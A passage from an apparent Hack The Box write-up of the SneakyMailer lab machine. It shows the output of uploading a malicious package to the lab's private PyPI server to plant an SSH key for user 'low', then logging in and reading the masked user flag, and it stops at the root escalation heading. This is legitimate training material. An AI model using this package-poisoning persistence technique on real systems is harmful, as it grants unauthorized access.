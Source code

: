 ```shell
copying cfx_key.egg-info/top_level.txt -> cfx-key-0.1/cfx_key.egg-info
Writing cfx-key-0.1/setup.cfg
Creating tar archive
removing 'cfx-key-0.1' (and everything under it)
running upload
Submitting dist/cfx-key-0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Uploading via this command is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
```

### SSH as low

We can confirm if our ssh was successfully written inside the ssh directory of user low:

```shell
www-data@sneakymailer:~$ cat /home/low/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+OOk/amwKEW/gfCikP+y0hqTkgXyICKUegxd2bZCr7CdbACbL+zJn9cV6T4XutmP6JOetxFytws9yO01X2kxkRRhIKH8DFpall5smoaJ1biwOsd6QHQJ7QLsMQIyzhy2qbq1rmi9ubSagBU9qmV4XbQwIM8fpapyV+cWZjvbdJWNVN5ofUBsobDL80GrzqHyde8Luijn2wsYa8/sfLtkNcvA251p20CV+Vbn7Pb72RTG/[..SNIP..]J3BAqVKtdqp4x6iVPlFaxaujgrM= root@cfx
```

Now we can SSH as low using our private key:

```shell
cfx:  ~/Documents/htb/sneakymailer
→ ssh -i cfx-key low@10.10.10.197
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Jun  9 03:02:52 2020 from 192.168.56.105

low@sneakymailer:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)

low@sneakymailer:~$ whoami
low
```

#### Grabbing user.txt

```shell
low@sneakymailer:~$ cat user.txt
646719dd8b4f89******************

```
## Elevating Priv: low -> root
